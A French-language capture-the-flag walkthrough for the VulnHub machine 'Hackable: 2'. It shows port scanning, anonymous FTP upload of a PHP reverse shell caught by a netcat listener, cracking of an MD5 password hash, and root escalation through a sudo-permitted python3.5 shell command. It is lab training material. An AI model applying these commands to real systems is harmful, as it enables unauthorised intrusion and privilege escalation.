 ```yaml
---
title: "CTF Hackable: 2"
date: 2021-06-23
tags: ["Pentest", "CTF", "webshell"]
download: https://www.vulnhub.com/entry/hackable-ii,711
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.2** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.32`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Hackable2 && cd Hackable2`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2f:c6:2f:c4:6d:a6:f5:5b:c2:1b:f9:17:1f:9a:09:89 (RSA)
|   256 5e:91:1b:6b:f1:d8:81:de:8b:2c:f3:70:61:ea:6f:29 (ECDSA)
|_  256 f1:98:21:91:c8:ee:4d:a2:83:14:64:96:37:5b:44:3d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a un serveur **FTP** sur le port **21**, un serveur **SSH** sur le port **22** et un serveur **Apache** 2.4.18 sur le port **80**.

```bash
$ ftp $IP
Connected to 192.168.1.32.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.32]
Name (192.168.1.32:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xrwx   2 33       33           4096 Nov 26  2020 .
drwxr-xrwx   2 33       33           4096 Nov 26  2020 ..
-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
226 Transfer complete
ftp> get CALL.html
local: CALL.html remote: CALL.html
200 PORT command successful
150 Opening BINARY mode data connection for CALL.html (109 bytes)
226 Transfer complete
```

On récupère le fichier HTML.

```html
$ cat CALL.html                                      
<html>
<head>
    <title>onion</title>
</head>
<body>
    <h1>GET READY TO RECEIVE A CALL</h1>
</body>
</html>
```

Rien d'intéressant dans le fichier HTML si ce n'est le message "GET READY TO RECEIVE A CALL"... On teste la sécurité du serveur **Apache** avec **Nikto** dans un second onglet du terminal.

```bash
$ nikto -h http://$IP -o nikto.txt
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2be7, size: 5b504999e72a0, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /files/: Directory indexing found.
+ OSVDB-3092: /files/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
```

Dans le répértoire "files", on retrouve le fichier HTML présent dans le serveur **FTP**.

On prépare le webshell pour l'uploader sur le serveur **FTP**.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php .
$ vim php-reverse-shell.php
/$ip
```

Dans un troisième onglet, lancez le serveur **Netcat** avec la commande `nc -lnvp 1234`.

On retourne sur le serveur FTP pour y glisser notre webshell.

```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful
150 Opening BINARY mode data connection for php-reverse-shell.php
226 Transfer complete
5494 bytes sent in 0.00 secs (68.0453 MB/s)
```

## Pénétration

Dans le second onglet, la connexion au serveur **Netcat** est établie.

```bash
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Dans le fichier ".runme.sh" présent à la racine du serveur, on trouve un nouvel utilisateur "shrek" et un mot de passe associé sous la forme d'une chaine de caractères en **MD5**.

```bash
$ tail /.runme.sh
shrek:cf4c2232354952690368f1b3dfdfb24d
```

Après l'avoir décryptée sur le Web, on trouve le couple login et mot de passe "shrek:onion"

```bash
$ su shrek
Password: onion
```

On est connecté avec ce nouvel utilisateur et on trouve le flag user dans le dossier de cet utilisateur `cat /home/shrek/user.txt`.

## Escalation

```bash
$ sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
```

Cet utilisateur a des privilèges `sudo` avec la commande `python3.5`.

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo), on trouve facilement la commande pour être root de la machine avec `sudo`.

```bash
$ sudo python3.5 -c 'import os; os.system("/bin/sh")'
$ id
uid=0(root) gid=0(root) groups=0(root)
```

On trouve le flag root dans le dossier `cat /root/root.txt`.
